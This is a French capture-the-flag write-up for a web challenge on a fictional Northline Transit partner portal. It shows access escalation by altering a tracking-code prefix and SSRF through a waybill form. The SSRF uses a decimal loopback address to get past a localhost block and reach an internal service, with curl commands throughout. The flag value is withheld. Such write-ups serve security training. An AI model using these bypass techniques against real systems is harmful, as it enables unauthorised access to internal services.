

# WINDOW — Northline Transit (Web, 30 pts, q:4)

## Objectif

Retrouver la **fenêtre horaire exacte** de l'interception de Thomas Crown.
Le challenge réutilise le portail partenaire Northline Transit de la mission
`interception` ; la cible est `http://172.28.35.2:8080` (IP variable selon
l'instance). Le flag est la fenêtre elle-même.

## État initial

- Reçu `recu_northline.png` : référence `NL-24-7K42` et QR code.
- Portail partenaire Northline Transit (`/login`, `/dashboard`, `/waybills`).
- Le dashboard affiche un « identifiant de session » : c'est un leurre pour
  les questions précédentes, pas la fenêtre.
- Le formulaire `/waybills` récupère une URL distante (`source_url`) et sert
  d'SSRF vers le sidecar de dispatch local.




## Reconnaissance

Le QR code du reçu donne un code de suivi de la forme :

```text
TRK.89a68c336ddecef271c90619.6d138d274ad90be7c290bdf3035cc96e
```

Le format documenté sur `/documentation` est `PREFIX.identifiant.intégrité`.
Le préfixe change le niveau d'accès ; l'identifiant et l'intégrité restent
valides. En remplaçant `TRK` par `PRT`, on obtient l'accès partenaire :

```text
PRT.89a68c336ddecef271c90619.6d138d274ad90be7c290bdf3035cc96e
```

```bash
TARGET=http://172.28.35.2:8080
curl -s -c cookies -X POST \
  -d 'code=PRT.89a68c336ddecef271c90619.6d138d274ad90be7c290bdf3035cc96e' \
  "$TARGET/login"
# 302 /dashboard
```

Le sidecar local écoute sur le port **8081**. Le validateur de `/waybills`
n'autorise que l'HTTP et le port 8081, et bloque les formes littérales
`127.0.0.1` / `localhost`. On utilise la forme décimale de la boucle locale :

```text
http://2130706433:8081/
```

La spécification du sidecar (accessible via l'SSRF) expose notamment :

```text
GET /api/shipments/<reference>
GET /api/operations/<operation_id>
GET /api/operations/<operation_id>/assignments
GET /flag
```

## Exploitation

### 1. Retrouver l'opération

```bash
curl -s -b cookies -X POST \
  --data-urlencode 'source_url=http://2130706433:8081/api/shipments/NL-24-7K42' \
  "$TARGET/waybills"
```

Réponse utile :

```json
{"reference":"NL-24-7K42","operation":"OP-24-7319",
 "origin":"Skarvik","destination":"Tervalis","owner":"partner-1042"}
```

L'opération de coordination est `OP-24-7319`.

### 2. Lire le dossier d'opération

```bash
curl -s -b cookies -X POST \
  --data-urlencode 'source_url=http://2130706433:8081/api/operations/OP-24-7319' \
  "$TARGET/waybills"
```

Le dossier complet contient les informations de voyage et un **champ de
fenêtre horaire** (le seul intervalle de temps du dossier). C'est cette
fenêtre qui est demandée par la q:4. Sa valeur est volontairement omise de ce
document ; elle est conservée sur la plateforme.

### 3. Vérifier le point de rendez-vous (q:5)

L'endpoint des affectations donne le point de rendez-vous :

```bash
curl -s -b cookies -X POST \
  --data-urlencode 'source_url=http://2130706433:8081/api/operations/OP-24-7319/assignments' \
  "$TARGET/waybills"
```

```json
{"assignments":[
  {"id":"ASG-318","status":"active","vehicle":"Fourgon bleu nuit",
   "registration":"NV-482-KR","support_id":"NV-USB-84F2",
   "meeting_point":"<redacted>"}
]}
```

Le champ `meeting_point` correspond à la q:5 (`LAST CHECKPOINT`), pas à la
fenêtre.

## Raisonnement

- Le reçu fournit un code de suivi `TRK`, mais le portail partenaire attend un
  code `PRT` avec le même identifiant et la même intégrité.
- Le dashboard ne contient pas la fenêtre : c'est un leurre.
- Le service de dispatch est un sidecar local sur le port 8081 ; le formulaire
  `/waybills` permet de le joindre en SSRF.
- La référence d'expédition (`NL-24-7K42`) donne l'opération
  (`OP-24-7319`), et le dossier d'opération contient la fenêtre exacte.
- La fenêtre est la valeur du champ horaire du dossier ; elle est soumise au
  format du challenge.

## Pièges

- Le code affiché sur le dashboard est un leurre pour la q:1/q:2.
- `127.0.0.1` et `localhost` sont bloqués : utiliser `2130706433`.
- Le port du sidecar est 8081, pas 8182.
- La référence d'expédition ne donne pas directement la fenêtre : il faut
  passer par l'endpoint `/api/operations/OP-24-7319`.
- Le point de rendez-vous (`meeting_point`) correspond à la q:5, pas à la
  fenêtre q:4.

## Validation reproductible

1. Se connecter avec le code `PRT...` : la réponse est `302 /dashboard`.
2. Requêter `/api/shipments/NL-24-7K42` via `/waybills` et récupérer
   `OP-24-7319`.
3. Requêter `/api/operations/OP-24-7319` via `/waybills` : le dossier contient
   la fenêtre horaire.
4. Soumettre cette fenêtre au format du challenge : la plateforme l'accepte.
5. Vérifier la plateforme : le flag `WINDOW` est enregistré et la valeur n'apparaît
   pas dans ce document.
